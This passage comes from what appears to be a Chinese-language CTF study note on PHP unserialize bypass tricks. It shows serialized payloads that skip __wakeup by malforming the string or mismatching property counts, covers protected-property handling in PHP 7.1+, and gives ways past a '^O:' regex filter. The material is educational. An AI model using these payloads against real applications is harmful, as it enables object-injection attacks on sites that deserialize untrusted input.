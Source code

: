 ```php
    }
}
class C{
    public function __destruct(){
        echo $this->c->b;
    }
}
```
正常情况下，可以先查看一下序列化大致的样子，如果直接反序列化这个 payload，自然是无法拿到 flag 的。
```php
$a = new C();
$a->c = new D();
echo serialize($a);
// O:1:"C":1:{s:1:"c";O:1:"D":1:{s:4:"flag";b:1;}}
unserialize('O:1:"C":1:{s:1:"c";O:1:"D":1:{s:4:"flag";b:1;}}');
// 输出 hint
```
假如我们破坏这个序列化字符串的结构，例如删除调最后一个 }，php 会给出错误信息，但仍旧输出了 flag，php 在遇到报错后直接执行了 C 的 __destruct 方法，这样便绕过了 __wakeup。
```php
unserialize('O:1:"C":1:{s:1:"c";O:1:"D":1:{s:4:"flag";b:1;}');
// 输出 flag
```
直接将 D 类的属性修改为与定义的不符也可以绕过 __wakeup.
```php
unserialize('O:1:"C":1:{s:1:"c";O:1:"D":0:{};N;}');
// 输出 flag
```


## php7.1 + 反序列化对类属性不敏感 
如果变量前是 protected，序列化结果会在变量名前加上\x00*\x00

但在特定版本 7.1 以上则对于类属性不敏感，比如下面的例子即使没有\x00*\x00也依然会输出abc

```php
<?php
class test{
    protected $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```
## 正则匹配头是否为 O
`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头, 这在曾经的 CTF 中也出过类似的考点
- 利用加号绕过（注意在 url 里传参时 + 要编码为 %2B）
- `serialize(array(a));`a 为要反序列化的对象 (序列化结果开头是 a，不影响作为数组元素的 `$a` 的析构)
```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}

```